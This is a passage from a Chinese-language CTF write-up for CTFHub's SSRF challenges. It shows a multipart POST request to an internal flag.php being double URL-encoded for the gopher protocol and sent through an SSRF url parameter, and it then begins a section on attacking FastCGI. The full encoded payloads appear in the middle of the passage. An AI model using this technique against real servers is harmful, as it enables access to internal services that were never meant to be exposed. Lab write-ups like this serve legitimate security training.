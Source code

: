 -----------------------------41538798404609826121560554440
Content-Disposition: form-data; name="file"; filename="1.txt"
Content-Type: text/plain

123
-----------------------------41538798404609826121560554440--
</code></pre>

经过一次url编码，%0A全部替换成%0d%0A

```
POST%20/flag.php%20HTTP/1.1%0d%0AHost:%20challenge-839040a464e49915.sandbox.ctfhub.com:10800%0d%0AUser-Agent:%20Mozilla/5.0%20(Windows%20NT%2010.0;%20Win64;%20x64;%20rv:91.0)%20Gecko/20100101%20Firefox/91.0%0d%0AAccept:%20text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8%0d%0AAccept-Language:%20zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2%0d%0AAccept-Encoding:%20gzip,%20deflate%0d%0AContent-Type:%20multipart/form-data;%20boundary=---------------------------41538798404609826121560554440%0d%0AContent-Length:%20218%0d%0AOrigin:%20http://challenge-839040a464e49915.sandbox.ctfhub.com:10800%0d%0AConnection:%20keep-alive%0d%0AReferer:%20http://challenge-839040a464e49915.sandbox.ctfhub.com:10800/?url=http://127.0.0.1/flag.php%0d%0AUpgrade-Insecure-Requests:%201%0d%0A%0d%0A-----------------------------41538798404609826121560554440%0d%0AContent-Disposition:%20form-data;%20name=%22file%22;%20filename=%221.txt%22%0d%0AContent-Type:%20text/plain%0d%0A%0d%0A123%0d%0A-----------------------------41538798404609826121560554440--%0d%0A
```

再经过一次url编码

```
POST%2520/flag.php%2520HTTP/1.1%250d%250AHost:%2520challenge-839040a464e49915.sandbox.ctfhub.com:10800%250d%250AUser-Agent:%2520Mozilla/5.0%2520(Windows%2520NT%252010.0;%2520Win64;%2520x64;%2520rv:91.0)%2520Gecko/20100101%2520Firefox/91.0%250d%250AAccept:%2520text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8%250d%250AAccept-Language:%2520zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2%250d%250AAccept-Encoding:%2520gzip,%2520deflate%250d%250AContent-Type:%2520multipart/form-data;%2520boundary=---------------------------41538798404609826121560554440%250d%250AContent-Length:%2520218%250d%250AOrigin:%2520http://challenge-839040a464e49915.sandbox.ctfhub.com:10800%250d%250AConnection:%2520keep-alive%250d%250AReferer:%2520http://challenge-839040a464e49915.sandbox.ctfhub.com:10800/?url=http://127.0.0.1/flag.php%250d%250AUpgrade-Insecure-Requests:%25201%250d%250A%250d%250A-----------------------------41538798404609826121560554440%250d%250AContent-Disposition:%2520form-data;%2520name=%2522file%2522;%2520filename=%25221.txt%2522%250d%250AContent-Type:%2520text/plain%250d%250A%250d%250A123%250d%250A-----------------------------41538798404609826121560554440--%250d%250A
```

使用gopher协议访问，成功得到flag。<figure class="wp-block-image size-full">

<img loading="lazy" width="755" height="37" src="https://cdn.jsdelivr.net/gh/Hannibal0x/img/2021/08/图片-215.png" alt="" class="wp-image-3173" /> </figure> 

## 0x06 FastCGI协议

题目：这次.我们需要攻击一下fastcgi协议咯.也许附件的文章会对你有点帮助

提供了一个附件<a rel="noreferrer noopener" href="https://blog.csdn.net/mysteryflower/article/details/94386461" target="_blank" rel="nofollow" >https://blog.csdn.net/mysteryflower/article/details/94386461</a>，这里同样参考了<a href="https://www.soapffz.com/sec/ctf/566.html" target="_blank" rel="noreferrer noopener" rel="nofollow" >https://www.soapffz.com/sec/ctf/566.html</a>
